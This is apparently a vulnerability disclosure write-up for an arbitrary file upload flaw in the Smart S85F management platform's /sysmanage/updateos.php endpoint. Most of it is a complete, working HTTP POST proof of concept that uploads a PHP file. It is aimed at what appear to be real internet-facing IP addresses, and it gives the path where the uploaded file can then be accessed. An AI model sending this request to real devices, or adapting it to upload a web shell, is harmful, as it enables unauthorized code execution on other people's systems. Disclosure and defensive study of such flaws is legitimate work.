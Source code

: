 A file upload vulnerability exists on the Smart S85F management platform

official website:https://www.byzoro.com/

Vulnerability url:/sysmanage/updateos.php

Version:Smart S85F ALL Verison

See the login page.

![WPS图片(1)](https://github.com/Meizhi-hua/cve/assets/61043007/46450072-c38c-4868-8cdf-f7233f992c5f)

Construct the POC and upload the file successfully

POC：
```
POST /sysmanage/updateos.php? HTTP/1.1
Host: 222.180.2.66:8443
Cookie: PHPSESSID=c36d5527fd784aa29748b3b1c50be7bc
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 597
Origin: https://222.180.2.66:8443
Referer: https://222.180.2.66:8443/sysmanage/licence.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_file_upload"; filename="1.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="id_type"

1
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_ck"

1_radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="mode"

set
-----------------------------42328904123665875270630079328—
```
![WPS图片(2)](https://github.com/Meizhi-hua/cve/assets/61043007/d372cdd6-7e86-48d4-aa6a-39f03fbcc1ff)

Access address:
 https://60.29.117.204:8443/home/1.php
![WPS图片(3)](https://github.com/Meizhi-hua/cve/assets/61043007/af6ce282-c619-4778-bcf7-9c5d75305c03)

 
